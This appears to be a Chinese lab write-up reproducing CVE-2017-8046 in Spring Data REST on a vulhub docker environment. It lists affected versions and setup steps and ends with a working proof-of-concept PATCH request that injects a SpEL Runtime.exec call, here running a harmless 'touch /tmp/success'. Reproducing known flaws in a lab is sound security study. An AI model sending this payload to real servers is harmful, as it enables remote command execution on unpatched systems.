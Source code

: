 ### 影响版本

```php
Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
Spring Boot version < 2.0.0M4
Spring Data release trains < Kay-RC3
```

#### 漏洞搭建

关闭之前的docker镜像

![image-20210521102823896](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-31ea31e4ade043a418a1e652147fe1048c5cf3a6.png)

```php
cd vulhub-master/spring/CVE-2017-8046
sudo docker-compose up -d
```

![image-20210521103116167](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-dd65c39c9548f62493132e51d243c62214a7d4b3.png)

#### 漏洞复现

访问

![image-20210521103134848](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2eb4f6173c387c49b82a25555522eaca2c19dfac.png)

#### 漏洞验证

访问

```php
http://192.168.175.209:8080/customers/1
```

![image-20210521103330023](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-11bfa47b9087132119c4bb42cca34dab1b172ede.png)

进行抓包

![image-20210521103417353](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fe2f6f682018662c56d2d2562dd3823958b119bf.png)

修改成PATCH请求

#### Poc

```php
PATCH /customers/1 HTTP/1.1
Host: 192.168.175.209:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 210
[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```
